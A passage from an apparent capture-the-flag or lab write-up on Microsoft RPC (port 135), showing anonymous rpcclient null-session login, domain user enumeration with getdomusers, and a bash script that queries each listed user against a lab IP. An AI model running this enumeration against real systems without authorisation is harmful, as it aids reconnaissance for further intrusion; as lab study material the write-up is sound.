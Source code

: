 ### 4. ms RPC 135

A Remote Procedure Call (RPC) is a software communication protocol that one program uses to request a service from another program located on a different computer and network, without having to understand the network's details. Specifically, RPC is used to call other processes on remote systems as if the process were a local system. A procedure call is also sometimes known as a _function call_ or a _subroutine call_.

**The rpcclient tool is used to interact with remote services on Windows systems using the Remote Procedure Call (RPC) protocol**. An attacker can use rpcclient to enumerate information about the system, such as users and groups, which can be useful for carrying out further attacks.


```bash
$ rpcclient -U "" -N 10.129.23.166

# user enumeration
$ getdomusers
```

- **-U** for username
- **-N** for don't ask for password

Getting each user information one by one was quite time consuming, i decided to write a bash script which will automate this process

```bash
#!/bin/bash
# Define the file containing the list of usernames
USER_LIST_FILE="users1.txt"
# Define the server IP address or hostname
SERVER="10.129.23.166"
# Define the username for authentication
USERNAME="" # Replace with your actual username
# Check if the file exists
if [[ ! -f "$USER_LIST_FILE" ]]; then
  echo "User list file $USER_LIST_FILE does not exist."
  exit 1
fi
# Read each username from the file and query it
while IFS= read -r username; do
  # Skip empty lines and comments (lines starting with #)
  if [[ -z "$username" || "$username" =~ ^# ]]; then
    continue
  fi
  # Query the user using rpcclient
  echo "Querying user: $username"
  rpcclient -U "$USERNAME" -N "$SERVER" -c "queryuser $username"
  # Check if rpcclient was successful
  if [[ $? -ne 0 ]]; then
    echo "Failed to query user: $username"
  fi
done < "$USER_LIST_FILE"
```
